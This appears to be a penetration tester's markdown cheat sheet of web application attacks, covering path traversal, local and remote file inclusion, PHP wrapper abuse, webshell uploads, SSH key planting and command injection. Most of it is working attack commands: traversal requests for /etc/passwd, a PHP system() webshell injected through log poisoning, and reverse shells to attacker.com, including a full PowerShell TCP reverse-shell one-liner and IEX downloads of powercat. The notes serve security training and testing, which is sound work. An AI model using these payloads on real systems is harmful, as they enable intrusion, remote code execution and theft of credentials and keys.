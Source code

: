 
# Common Attacks towards Web Applications

Important! [OWASP Web Application Testing](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/README)

## Directory Traversal

* Test if path traversal is possible
* Windows `C:\Windows\System32\drivers\etc\hosts`
* Linux `/etc/passwd`

Curl

* --path-as-is for ../
* Windows LFI without C:

```bash
curl --path-as-is http://target-URL/public/../../../../../../../../WINDOWS/System32/drivers/etc/hosts
curl --path-as-is http://target-URL/public/../../../../../../../../etc/passwd
```

Intruder Payload

```bash
# single url %2e%2e%2f 
# double url %252e%252e%252f 
res=" "; pattern="../"; for i in {1..10}; do res=$res$pattern; echo $res; done
```

On Windows system, try to read `C:/WINDOWS/System32/drivers/etc/hosts` file first to test for path traversal. Next try to read files of the identified web server and it's configuration file or logs. Try to find sensitive information like username or passwords.

In Linux systems, a standard vector for directory traversal is to list the users of the system by displaying the contents of `/etc/passwd`, check for private keys in their home directory `/home/user/.ssh/id_rsa`, and use them to access the system via SSH.

## Local File Inclusion

The big difference between path traversal and file inclusion (LI) is that LI allows to **execute files** where path traversal only allows to read them. The **code execution** is major attack vector.

Linux Web Servers

* PATH `/var/www/html/login.html.`
* URLs `https://example.com/login.html`
* POIs `https://example.com/cms/login.php?page=en.html`
  * subfolder cms
  * PHP language
  * file inclusion

Windows Web Server

* [LFI](https://gist.github.com/korrosivesec/a339e376bae22fcfb7f858426094661e)
* [IIS Log Management](https://learn.microsoft.com/en-us/iis/manage/provisioning-and-managing-iis/managing-iis-log-file-storage)
* ISS Conf `\inetpub\wwwroot\web.config`
* ISS Logs `\inetpub\logs\LogFiles\W3SVC1\u_ex[YYMMDD].log`
* Apache Conf `/xampp/apache/conf/httpd.conf`
* Apache Logs `/xampp/apache/logs/access.log`
* Apache Logs `/xampp/apache/logs/error.log`
* Sensitive information: user, passwords

The goal of an LFI exploit is to load/include poisoned files with a interpreter to execute code. Log file poisoning allows the attacker to put malicious code written in e.g. PHP/python/ASP/JSP/perl/JS into a log file which gets executed by attacked website. The basic attack vector is the `system` call to execute arbitrary code using URL or POST data payload. (RCE)

More info about webshell can be found here `kali ll /usr/share/webshells/php/`

Example:

* Navigate to `https://example.com/index.php?page=admin.php`
* Include local log file `../../xampp/apache/logs/access.log`
* Identify that controlled User Agent gets logged `Mozilla/5.0`
* Trigger log poisoning with curl -A "user-agent-name-here" e.g. `<?php echo system($_GET['cmd']); ?>`
* Include log file to execute cmd `../../xampp/apache/logs/access.log?cmd=id`

```bash
curl -i -k https://example.com/index.php?page=../../../../../../../../../xampp/apache/logs/access.log
# code allows to run a simple command supplied by the URL (encoding)
curl -i -A "Mozilla/5.2 <?php echo system($_GET['cmd']); ?>"
curl -i -k https://example.com/index.php?page=../../../../../../../../../xampp/apache/logs/access.log&cmd=ps
```

## Remote File Inclusion

* Requires allow_url_include `https://www.php.net/manual/en/filesystem.configuration.php`
* Requires an interpretet language
* See `/usr/share/webshells`

Remote file inclusion (RFI) works like that LFI but has security misconfiguration as precondition. Given the PHP setting `allow_url_include` is active, an attacker can host the include file remotely. It can use a HTTP server to do so and wait for an reverse shell

Example:

* Navigate to `/usr/share/webshells`
* Setup HTTP server `python -m simple.http 80`
* Setup TCP listener (NC reverse shell)
* Navigate to `https://example.com/index.php?page=admin.php`
* Include the remote file `page=http://attacker.com/php-reverse-shell.php`
* Use newly spawned reverse shell on TCP listener

```bash
cp /usr/share/webshells/php/php-reverse-shell.php ~/
sed -i "s/$ip = '127.0.0.1'/$ip = 'attacker.com'/g" php-reverse-shell.php
sed -i "s/$port = 1234/$port = 4444/g" php-reverse-shell.php
python -m simple.http 80
nc -nlvp 4444
curl -k -i https://example.com/index.php?page=http://attacker.com/php-reverse-shell.php
```

## Read Filter and Data Execution

* Requires allow_url_include `https://www.php.net/manual/en/filesystem.configuration.php`
* PHP Read File Filter `https://www.php.net/manual/en/wrappers.php.php`
* PHP Data Execution `https://www.php.net/manual/en/wrappers.data.php`

```bash
# Read File content in Base64 format with php://filter
curl http://example.com/index.php?page=php://filter/resource=admin.php
curl http://example.com/index.php?page=php://filter/convert.base64-encode/resource=admin.php
# Execute Cmd with php://data from
curl "http://example.com/index.php?page=data://text/plain,<?php%20echo%20system('ls');?>"
echo -n '<?php echo system($_GET["cmd"]);?>' | base64
curl "http://example.com/index.php?page=data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=ls"
```

## File Upload Vulnerability

* Find file uploads in the app (images, texts, doc)
* Identify programming language
* Identify if block list or filters can be bypassed
* Try to upload a webshell `/usr/share/webshells`
* Identify underlying OS
* Setup a TCP listener `nc -nlvp 4444`
* Prepare reverse shell e.g. PS `https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3`
* Use the installed webshell and `powershell -enc` to run a base64 encoded reverse shell exploit

```powershell
# Install a PHP webshell
cp /usr/share/webshells/php/simple-backdoor.php ~/simple-backdoor.Php
curl -i -F "fileToUpload=@./simple-backdoor.Php" http://target.com/meteor/upload.php
curl -i http://target.com/meteor/uploads/simple-backdoor.Php?cmd=whoami
# Prepare PS reverse shell
pwsh
$Shell = '$client = New-Object System.Net.Sockets.TCPClient("IP",PORT);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'
# Encode utf-8 and convert to base 64 
$Base64Shell = [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($Shell))
# Exploit
nc -nlvp 4444
curl http://target.com/meteor/uploads/simple-backdoor.Php?cmd=powershell%20-enc%20$Base64Shell
...

## File Upload with Path Traversal (but no execution)

* A Linux standard vector is to use SSH key for access
* Combine Path Traversal and File Upload vulnerability
* Upload `authorized_keys` blindly to `/root/.ssh` folder

```bash
# Generate new SSH key
ssh-keygen
cat new-key.pub > authorized_keys
# POST authorized_keys via unprotected upload form and exploit path traversal in filename to override the file into root folder
curl -i -F 'myFile=@./authorized_keys;filename=../../../../../../../../../../root/.ssh/authorized_keys' http://target.com/upload
ssh -i new-key root@target.com
```

## Command Injection

* [OWASP Test for Command Injections](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/12-Testing_for_Command_Injection)
* Shell command seperator %3B = ';'
* e.g. ipconfig;nc attacker.com 4444
* e.g. ";ls #

Test if we run on 'cmd' or 'powershell'

```shell
(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell 
# URL encode with BURP
%3B%28%64%69%72%20%32%3e%26%31%20%2a%60%7c%65%63%68%6f%20%43%4d%44%29%3b%26%3c%23%20%72%65%6d%20%23%3e%65%63%68%6f%20%50%6f%77%65%72%53%68%65%6c%6c%20
```

Serve Powercat

* NC tool for pwsh `https://github.com/besimorhino/powercat`
* -c IP to connect
* -p Port to connect
* -e executeable to run
* -ep execute Powershell

```bash
# serve via local machine
cp /usr/share/powershell-empire/empire/server/data/module_source/management/powercat.ps1 .
python3 -m http.server 80
nc -nlvp 4444
```

Download Powercat and spawn Reverse Shell

```powershell
# download from github 
IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')
# download from attacker machine
IEX (New-Object System.Net.Webclient).DownloadString("http://attacker.com/powercat.ps1")
# run PS reverse shell 
powercat -c attacker.com -p 4444 -ep
# another PS version 1.0 reverse shell
https://github.com/martinsohn/PowerShell-reverse-shell/blob/main/powershell-reverse-shell.ps1
```
